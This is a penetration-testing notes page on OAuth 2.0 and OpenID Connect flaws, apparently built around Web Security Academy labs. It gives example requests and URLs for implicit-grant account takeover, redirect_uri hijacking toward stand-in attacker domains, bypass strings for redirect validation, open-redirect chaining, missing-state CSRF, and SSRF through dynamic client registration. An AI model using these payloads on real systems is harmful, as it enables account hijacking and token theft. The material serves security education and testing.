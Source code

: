 ```yaml
---
title: "OAuth 2.0"
weight: 17
description: "Explore OAuth 2.0 authorization framework, its vulnerabilities, and common security flaws in penetration testing. Learn how to identify OAuth flow and prevent attacks."
---
```


# OAuth 2.0

{{< details summary="Introduction" >}}

**What is OAuth?**

* OAuth is a commonly used authorization framework that enables web applications to request limited access to a user's account on another application.

**How does OAuth 2.0 work?**

* **Client application** - The website that wants to access the user's data.
* **Resource owner** - The user whose data the client application wants to access.
* **OAuth service provider** - The website or application that controls the user's data and access to it. They support OAuth by providing an API for interacting with both an authorization server and a resource server.

{{< /details >}}

---

## Identifying OAuth authentication

* If you see an option to log in using your account from a different website, this is a strong indication that OAuth is being used.
* Regardless of which OAuth grant type is being used, the first request of the flow will always be a request to the `/authorization` endpoint containing a number of query parameters that are used specifically for OAuth. In particular, keep an eye out for the `client_id`, `redirect_uri`, and `response_type` parameters

### Recon

If using an external OAuth service, identify the provider by the hostname in the authorization request. Public API documentation typically provides detailed information, including endpoint names and configuration options. Try sending a request to the following standard endpoints:

* `/.well-known/oauth-authorization-server`
* `/.well-known/openid-configuration`

---

## Vulnerabilities

### Improper implementation of the implicit grant type

At the conclusion of the login process, the client application often sends the username and access token to the server via a `POST` request. The server then issues a session cookie, effectively completing the login and establishing the user session

```http
POST /authenticate HTTP/2
Host: 0a55005703e1680182bd7f6100b60068.web-security-academy.net
[..]

{"email":"lebron@cleveland.com","username":"lebron","token":"ckNqkfxB"}
```

```http
HTTP/2 302 Found
Location: /
Set-Cookie: session=OixJC365d0v7yaU1l1xEnCCtfnRZDhZe; Secure; HttpOnly; SameSite=None
```

Exploitation: repeat this request with an arbitrary account (changing email and username) and leaving the access token

### Account hijacking via redirect\_uri

Replace `redirect_uri` with a attacker controlled domain

```md
https://oauth-x.oauth-server.net/auth?client_id=xyz&redirect_uri=https://attack.com/oauth-callback&response_type=code&scope=openid profile email
```

{{< hint style=notes >}}
Using `state` or `nonce` protection does not necessarily prevent these attacks because an attacker can generate new values from their own browser.
{{< /hint >}}

**Flawed redirect\_uri validation**

```md
https://default-host.com@foo.evil-user.net
https://oauth-xxx-server.com/?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net
https://localhost.evil-user.net
```

**Chain vulns**&#x20;

If you are unable to successfully submit an external domain as the `redirect_uri` you can chain vulnerabilities like open redirect, xss etc.

1. Find open redirect

    ```md
    https://server.net/post/next?path=https://attacker.com
    ```

2. Use this url as `redirect_uri`&#x20;

    ```md
    https://oauth-xxx-server.com/?client_id=123&redirect_uri=https://server.net/post/next?path=https://attacker.com[...]
    ```

{{< hint style=tips >}}
The default URI will often be on an OAuth-specific path, such as `/oauth/callback`, so you can use directory traversal tricks `https://client-app.com/oauth/callback/../../example/path`.
{{< /hint >}}

### Flawed CSRF protection

if you notice that the authorization request does not send a `state` parameter, It potentially means that you can initiate an OAuth flow yourself before tricking a user's browser into completing it, similar to a traditional CSRF attack.

---

## OpenID Connect

### Identifying OpenID Connect

Look for the mandatory `openid` scope

### Unprotected dynamic client registration

1. Identify configuration file `/.well-known/openid-configuration` to get registration\_endpoint
2. Register your own client app. In the logo\_uri add a external url for SSRF

    ```http
    POST /reg HTTP/1.1
    Host: oauth-YOUR-OAUTH-SERVER.oauth-server.net
    Content-Type: application/json

    {
        "application_type": "web",
        "client_name": "My Application",
        "redirect_uris": [
            "https://client-app.com/callback",
            "https://client-app.com/callback2"
            ],
        "logo_uri": "https://BURP-COLLABORATOR-SUBDOMAIN"
    }
    ```

    ```http
    HTTP/2 201 Created
    [...]

    {[...]"client_id":"aqFGUZgiQmXrUphoMV7i6","client_name":"My Application",[...]}
    ```

3. Make `GET /client/CLIENT-ID/logo` request and replace the `client_id`
